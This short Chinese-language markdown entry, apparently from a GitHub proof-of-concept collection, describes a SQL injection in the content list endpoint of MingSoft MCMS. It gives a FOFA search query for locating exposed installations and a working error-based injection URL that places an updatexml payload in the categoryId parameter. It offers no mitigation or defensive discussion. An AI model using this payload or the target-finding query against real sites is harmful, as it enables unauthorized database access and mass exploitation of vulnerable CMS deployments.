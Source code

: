 ## 铭飞CMS list接口存在SQL注入

## fofa
```
body="铭飞MCMS" || body="/mdiy/formData/save.do" || body="static/plugins/ms/1.0.0/ms.js"
```

## poc
```
http://127.0.0.1/cms/content/list?categoryId=1%27%20and%20updatexml(1,concat(0x7e,md5(123),0x7e),1)%20and%20%271
```
![image](https://github.com/wy876/POC/assets/139549762/9f9df303-e0b5-4707-a3a8-228e97ab74a0)
